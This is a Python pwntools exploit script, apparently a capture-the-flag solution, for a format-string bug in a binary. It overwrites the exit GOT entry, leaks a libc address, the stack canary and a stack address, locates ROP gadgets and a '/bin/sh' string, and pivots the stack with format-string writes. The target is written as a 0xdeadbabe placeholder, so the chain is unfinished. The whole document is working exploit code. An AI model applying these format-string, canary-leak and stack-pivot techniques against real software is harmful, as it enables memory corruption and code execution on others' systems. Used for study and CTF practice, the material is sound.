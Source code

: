 ```python
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'printf on your input and then exit.\n', payload)

io = start()

####################################
####### Redirect exit to func ######
####################################

f = FmtStr(send_fmt, offset=46, padlen=4, numbwritten=0x6c)
f.write(exe.got['exit'], exe.sym.func)
f.execute_writes()


####################################
#### Leak Part #####################
####################################

payload = flat('%3$p|%161$p|%164$p|')
send_fmt(payload)
io.recvuntil(b'Your input is:')
io.recvline()

leaks = io.recvline().split(b'|')

leak_write23= int(leaks[0], 16)
leak_canary = int(leaks[1], 16)
rbp_addr    = int(leaks[2], 16)-0xa00

libc.address = leak_write23 - 0x10e297 # offset of write+23

success(f'LIBC Base Address: {libc.address:#x}')
success(f'Canary Value     : {leak_canary:#x}')
success(f'RBP Address      : {rbp_addr:#x}')

####################################
#### Write Part ####################
####################################

target_address = exe.bss()+0x680

success(f'Target address: {target_address:#x}')

###### rop chain generation ########
binsh = next(libc.search(b'/bin/sh\0'))

rop = ROP([exe, libc])

pop_rdi     = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsp     = rop.find_gadget(['pop rsp', 'ret'])[0]
ret         = rop.find_gadget(['ret'])[0]

f.write(rbp_addr-0x4f8, pop_rsp)        # ---> printf return address
f.write(rbp_addr-0x4f0, target_address) # ---> printf return address+8
f.write(target_address, 0xdeadbabe)

f.execute_writes()

io.interactive()

```